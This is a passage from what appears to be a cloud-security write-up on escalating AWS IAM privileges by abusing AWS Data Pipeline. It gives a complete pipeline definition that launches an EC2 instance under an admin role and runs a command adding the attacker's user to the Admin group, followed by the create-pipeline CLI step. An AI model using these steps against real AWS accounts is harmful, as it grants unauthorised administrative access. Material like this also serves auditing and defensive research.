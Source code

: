 ```json
    }
  ]
}
```

The AWS environment contains a role named adminaccess that can be assumed by the Data Pipeline service and which has the permissions necessary to create the desired AWS resources.

In order to create a new Data Pipeline from the AWS command line interface, the attacker needs to specify a definition file that instructs the pipeline on what to do. In this example, the attacker is going to spin up an EC2 instance, pass a role to it with privileges that the attacker's account does not have, and then use the instance to add the attacker's account to the Admin group:

`privesc.json`

```json
{
    "objects": [
    {
        "id" : "CreateDirectory",
        "type" : "ShellCommandActivity",
        "command" : "aws iam add-user-to-group --group-name Admin --user-name privesc_test",
        "runsOn" : {"ref": "instance"}
    },
    {
        "id": "Default",
        "scheduleType": "ondemand",
        "failureAndRerunMode": "CASCADE",
        "name": "Default",
        "role": "adminAccess",
        "resourceRole": "adminAccess"
    },
    {
        "id" : "instance",
        "name" : "instance",
        "type" : "Ec2Resource",
        "actionOnTaskFailure" : "terminate",
        "actionOnResourceFailure" : "retryAll",
        "maximumRetries" : "1",
        "instanceType" : "t2.micro",
        "securityGroups" : ["default"],
        "keyPair" : "test",
        "role" : "adminaccess",
        "resourceRole" : "adminaccess"
    }]
}
```

To create the Data Pipeline, the attacker executes the following command:

```bash
➜ aws datapipeline create-pipeline --name privesc --unique-id privesctest --region us-west-2 --profile privesc
```
